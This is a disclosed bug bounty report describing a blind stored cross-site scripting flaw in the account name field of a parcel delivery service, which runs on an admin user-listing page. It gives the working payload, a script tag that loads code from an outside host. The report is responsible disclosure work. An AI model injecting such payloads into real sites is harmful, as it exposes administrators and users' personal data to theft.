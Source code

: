 # Blind stored xss [parcel.grab.com] > name parameter 

## Report Details
- **Report ID**: 251224
- **URL**: https://hackerone.com/reports/251224
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-07-19T14:37:48.344Z
- **Disclosed**: 2017-09-14T11:41:24.572Z

## Reporter
- **Username**: paresh_parmar
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: grab

## Vulnerability Information
Hi,


___my previously reported blind xss is fixed but i found same type of xss in diffrent area with more impact.___


# Steps to repro:
1. create new account with name `"><script src=https://x.com></script>` here https://parcel.grab.com/
2.  afftected page is https://app.detrack.com/a/
where admin can see all the user's of application
and this is one more impact full because it contains all the user's email address. attacker can hijack all the information from there using xss
affeffcted page poc:
{F204498██████████
3. go here https://app.detrack.com/a/ and find ████████ , that is my account with xss payload.


thanks

## Attachments
No attachments
